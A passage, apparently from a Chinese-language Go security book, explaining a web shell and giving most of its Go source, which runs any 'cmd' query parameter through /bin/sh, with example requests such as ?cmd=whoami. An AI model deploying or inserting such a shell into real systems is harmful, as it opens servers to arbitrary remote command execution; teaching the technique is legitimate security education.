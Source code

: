 请记住，使用纯 HTTP 意味着流量可以以纯文本形式记录。可以使用 HTTPS 加密流量，但 SSL 证书和密钥将驻留在服务器上，因此服务器管理员将可以访问它。要使此示例使用 SSL，只需将`http.ListenAndServe()`更改为`http.ListenAndServeTLS()`。第九章中提供了此示例，*Web 应用程序*。

Web shell 的便利之处在于您可以使用任何 Web 浏览器和命令行工具，例如`curl`或`wget`。您甚至可以使用`netcat`并手动创建 HTTP 请求。缺点是您没有真正的交互式 shell，并且一次只能发送一个命令。如果使用分号分隔多个命令，可以在一个字符串中运行多个命令。

您可以像这样手动创建`netcat`或自定义 TCP 客户端的 HTTP 请求：

```go
GET /?cmd=whoami HTTP/1.0\n\n  
```

这将类似于由 Web 浏览器创建的请求。例如，如果您运行`webshell localhost:8080`，您可以访问端口`8080`上的 URL，并使用`http://localhost:8080/?cmd=df`运行命令。

请注意，`/bin/sh` shell 命令适用于 Linux 和 Mac。Windows 使用`cmd.exe`命令提示符。在 Windows 中，您可以启用 Windows 子系统并从 Windows 商店安装 Ubuntu，以在不安装虚拟机的情况下在 Linux 环境中运行所有这些 Linux 示例。

在下一个示例中，Web shell 创建一个简单的 Web 服务器，通过 HTTP 监听请求。当它收到请求时，它会查找名为`cmd`的`GET`查询。它将执行一个 shell，运行提供的命令，并将结果作为 HTTP 响应返回：

```go
package main

import (
   "fmt"
   "log"
   "net/http"
   "os"
   "os/exec"
)

var shell = "/bin/sh"
var shellArg = "-c"

func main() {
   if len(os.Args) != 2 {
      fmt.Printf("Usage: %s <listenAddress>\n", os.Args[0])
      fmt.Printf("Example: %s localhost:8080\n", os.Args[0])
      os.Exit(1)
   }

   http.HandleFunc("/", requestHandler)
   log.Println("Listening for HTTP requests.")
   err := http.ListenAndServe(os.Args[1], nil)
   if err != nil {
      log.Fatal("Error creating server. ", err)
   }
}

func requestHandler(writer http.ResponseWriter, request *http.Request) {
   // Get command to execute from GET query parameters
   cmd := request.URL.Query().Get("cmd")
   if cmd == "" {
      fmt.Fprintln(
         writer,
         "No command provided. Example: /?cmd=whoami")
      return
   }

   log.Printf("Request from %s: %s\n", request.RemoteAddr, cmd)
   fmt.Fprintf(writer, "You requested command: %s\n", cmd)

   // Run the command
   command := exec.Command(shell, shellArg, cmd)
   output, err := command.Output()
   if err != nil {
```